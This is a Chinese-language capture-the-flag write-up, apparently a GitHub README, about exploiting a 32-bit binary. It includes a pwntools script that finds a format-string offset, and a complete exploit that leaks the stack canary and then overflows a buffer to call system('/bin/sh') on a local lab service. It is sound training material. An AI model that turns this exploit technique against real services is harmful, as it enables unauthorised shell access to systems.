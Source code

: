 ## 文件检查
```shell
file test
checksec test
```


![](README/21E8A990-99BA-4DB8-BCAF-D2D2FF8EA0F6.png)

32位程序，开了NX,Canary防护，然后将文件仍到IDA里面，按F5查看伪代码

![](README/66351743-E6BE-4B0B-81B6-5E9CCF066E2D.png)

程序要求输入密码，用 的是strcmp进行检查，如果密码等于strcmp，则进入Addsecret函数

![](README/AB3DB005-33B1-435E-A5F2-729E0DC2A213.png)
这边的print函数很明显存在格式化字符串漏洞
一般格式化字符串漏洞的攻击流程是
1.先找到泄漏地址的位数
2.leak puts函数的puts_addr


任意地址读我们需要用到printf格式化字符串的另外一个特性，”$“操作符。这个操作符可以输出指定位置的参数。比如，通过修改偏移，可以遍历所有的地址

![](README/7EDA3C3E-EC28-4609-BE99-CD11FDBFFC81.png)

首先找到偏移的位数
```python
from pwn import *

for i in range(1, 100):
    conn = remote('127.0.0.1', 6080)

    conn.recvuntil("please input password:")
    conn.sendline("123456")
    conn.recvuntil("secret name:\n")
    payload1 = "AAAA%{num}$x".format(num=i)
    conn.sendline(payload1)
    data = conn.recv()

    if "414141" in data: #41是A的ascii编码
        print(i)
        break

```

知道偏移数是18

需要注意的是pwn的elf.symbols[**'system'**] 对应于IDA的.text区域
pwn的elf.got[**'system'**] 对应于IDA的.got区域


最后的代码
```python
from pwn import *

slog=0
local=0
debug=0
if slog:
        context.log_level=True
if local:
	p=process('./pwn')
else:
	ip='127.0.0.1'
	port=6080
	p=remote(ip,port)
if local and debug:
	gdb.attach(p,open('debug'))
#exp
p.recvuntil("password:")
p.sendline("123456")
p.recvuntil("name:")
p.sendline('%43$x')
p.recvline()
canary='0x'+p.recv(8)
sys=0x8048670
binsh=0x804A044
p.recvuntil("text:")
payload=0x96*'a'+p32(int(canary,16))+0xc*'a'+p32(sys)+'junk'+p32(binsh)
p.send(payload)
p.interactive()

```
